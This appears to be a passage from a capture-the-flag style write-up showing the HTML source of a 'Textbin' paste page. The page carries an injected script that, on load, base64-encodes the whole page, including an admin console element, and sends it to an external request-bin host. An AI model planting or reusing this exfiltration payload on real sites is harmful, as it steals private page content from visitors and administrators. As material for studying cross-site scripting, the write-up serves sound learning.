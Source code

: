 And here's the HTML source code of the entire page, for the sake of your clarity:


![816020dbaa2a6c799b1b60a2e618511a.png](/assets/images/c8773ee980f540c68bffee694c3078e4.png)

```
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <title>Textbin</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <nav class="navbar navbar-expand-lg navbar-light bg-light">
          <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
          </button>
          <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
              <li class="nav-item active">
                <a class="nav-link" href="/">Home<span class="sr-only">(current)</span></a>
              </li>
              
            </ul>
          </div>
        </nav>
        <div class="container">
            <div class="row">
                <div class="col-12">
                    <h1>Textbin</h1>
                </div>
            </div>
            <div class="row">
                <div class="col-8 textbody">
                    
                        <script>
window.addEventListener("load", function(event) {
    var req = new XMLHttpRequest();
	var target = document.getElementsByClassName('admin_console')[0];
	console.log(target.innerHTML);
	req.open('GET', 'https://enit8s845uv8.x.pipedream.net/?content=' + btoa(document.documentElement.innerHTML));
	req.send();
});

</script> 
```